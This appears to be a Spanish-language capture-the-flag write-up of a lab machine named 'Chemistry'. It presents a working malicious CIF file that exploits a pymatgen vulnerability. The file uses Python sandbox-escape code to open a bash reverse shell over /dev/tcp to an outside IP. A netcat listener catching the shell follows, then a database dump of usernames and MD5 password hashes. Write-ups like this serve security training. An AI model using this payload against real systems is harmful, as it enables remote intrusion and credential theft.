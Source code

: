 `vemos que podemos subir un archivo .cif para poder interactuar con él. Después de un poco de investigación, encontré un PoC en GitHub
https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f`


```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy


 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.11.220/1010 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

## /bin/bash -c \'sh -i >& /dev/tcp/10.10.11.220/1010 0>&1\' lo modificamos a nuestras nececidades

```
nc -lvnp 1425                         
listening on [any] 1425 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.38] 39028
app@chemistry:~$
```

```
app@chemistry:~/instance$ sqlite3 database.db
sqlite3 database.db
SELECT * FROM user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|nano|1657ec96792937f71c20c9e1bdc2300f
16|kali|d6ca3fd0c3a3b462ff2b83436dda495e
17|a|0cc175b9c0f1b6a831c399e269772661
18|mj|007de96adfa8b36dc2c8dd268d039129
19|123|202cb962ac59075b964b07152d234b70
20|test1|5a105e8b9d40e1329780d62ea2265d8a
```
